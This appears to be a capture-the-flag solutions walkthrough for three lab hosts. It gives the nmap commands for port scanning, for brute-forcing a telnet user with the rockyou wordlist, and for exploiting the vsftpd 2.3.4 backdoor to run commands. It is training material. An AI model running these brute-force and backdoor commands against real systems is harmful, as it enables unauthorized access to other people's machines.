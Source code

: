 # Solutions

## Midnight West
We can start out by browsing to the first IP given in a web browser, which will
show a webpage. View the source of this webpage to get access to the SSH
credentials for this box. Then, log in with:
```
ssh hacker@<IPaddr>
```

## Midnight South
The IP for this host can be found in the `midnight_notes.txt`
file in the homedir in Midnight West. Use nmap to find open ports:
```
sudo nmap -sS -F -Pn <IPaddr>
```
Notice that port 23 is open (telnet). Based on the notes listed, we know that
there's a user that's probably on this system named `mantic0re`. We'll try to
brute-force their login using nmap's telnet brute-force capabilities, and a
well known password list, the rockyou dump. You can get the rockyou list here:
http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
```
echo "mantic0re" > user.txt
wget http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
bunzip2 rockyou.txt.bz2
sudo nmap -p 23 --script telnet-brute --script-args 'userdb=user.txt,passdb=rockyou.txt' <IPaddr>
```
This will reveal the `mantic0re` user's password. You should now be able to log
into the "midnight south" host.

## Midnight Core
You can find the IP for this host inside `mantic0re`'s `.ssh/known_hosts` file.
There's a hint about this in the INSTRUCTIONS file that's in that user's
homedir. We'll start with a portscan, as usual:
```
sudo nmap -sS -F -Pn <IPaddr>
```
This reveals two ports open, 21 for `ftp` and 22 for `ssh`. `mantic0re`'s
credentials don't appear to work here, so let's target the FTP service. We can
start with a version scan:
```
sudo nmap -sS -sV -p 21 <IPaddr>
```
This reveals that this is vsftpd 2.3.4. Some quick googling indicates that this
version of vsftpd was actually backdoored, and there's a script to exploit it
built into nmap. We can exploit this host with:
```
sudo nmap --script ftp-vsftpd-backdoor --script-args 'ftp-vsftpd-backdoor.cmd="ls /"' -p 21 <IPaddr>
```
